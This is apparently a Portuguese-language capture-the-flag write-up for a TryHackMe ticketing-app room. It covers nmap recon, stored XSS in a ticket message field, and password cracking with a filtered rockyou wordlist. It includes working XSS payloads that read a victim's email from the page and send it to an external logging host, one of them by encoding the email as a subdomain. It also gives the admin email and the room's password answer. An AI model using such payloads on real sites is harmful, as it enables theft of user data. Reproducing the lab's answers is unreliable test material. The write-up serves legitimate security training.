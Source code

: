 #ctf 

https://tryhackme.com/room/thatstheticket

## Recon

NMAP:

```
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
80/tcp open  http    nginx 1.14.0 (Ubuntu)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Contas que criei:

```
teste@email.com:123456
```

Ao criar um ticket é possível injetar script em **message**

```html
</textarea><script>alert(1)</script>
```

Tentei ver se era possível pegar o email por parâmetro usando a proxy do lab, porém não foi possível.

```html
</textarea>
<script>
var email = document.getElementById('email').innerHTML;
var attacker = "http://3da9fd746d79d6609ab3f5882d62dce0.log.tryhackme.tech/";
var xhr  = new XMLHttpRequest();
xhr.open("GET", attacker + "?=" + email,true);
xhr.send(null);
</script>
```

Então inverti e passei como subdomínio da url da proxy e consegui ver qual era o domínio do email. Porém precisava saber o que vinha antes do @, e era justamene o @ que impedia de saber o email completo entao apenas substitui ele por um caracter qualquer.

```html
</textarea>
<script>
var email = (document.getElementById('email').innerHTML).replace('@', '-arroba-');
var xhr  = new XMLHttpRequest();
xhr.open("GET", "http://"+email+".3da9fd746d79d6609ab3f5882d62dce0.log.tryhackme.tech",true);
xhr.send(null);
</script>
```

Email do admin: adminaccount@itsupport.thm

Ao criar um usuário, a senha deve conter no mínimo 6 letras (dei uma roubada e vi que o input da pergunta "Admin users password" era 6 caracteres :s) usei o seguinte código para filtrar o rockyou.txt

```sh
awk 'length($0) == 6' /usr/share/wordlists/rockyou.txt > wordlist.txt
```

A senha é: 123123. GG